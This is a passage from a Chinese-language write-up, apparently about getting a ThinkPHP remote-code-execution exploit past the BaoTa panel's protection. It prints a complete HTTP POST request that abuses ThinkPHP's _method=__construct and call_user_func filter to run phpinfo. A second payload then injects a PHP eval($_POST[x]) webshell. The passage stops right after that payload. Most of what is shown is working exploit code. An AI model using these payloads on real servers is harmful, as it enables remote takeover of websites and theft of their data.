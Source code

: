 开始的时候一切都很顺利，直接使用POC查看phpinfo

```
POST /index.php?s=captcha&aaa=id HTTP/1.1
Host: rank.localtest.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:64.0)Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh,en-US;q=0.8,en;q=0.5,zh-SG;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded 
Content-Length: 85

_method=__construct&filter[]=call_user_func&method=get&server[REQUEST_METHOD]=phpinfo
```

![1566403268447](./Thinkphp%20RCE绕过宝塔面板的姿势分享/1566403268447.png)

但是当我使用攻击性Poc的时候

```
_method=__construct&filter[]=call_user_func&method=get&server[REQUEST_METHOD]=<?php eval($_POST[x]);?>
```
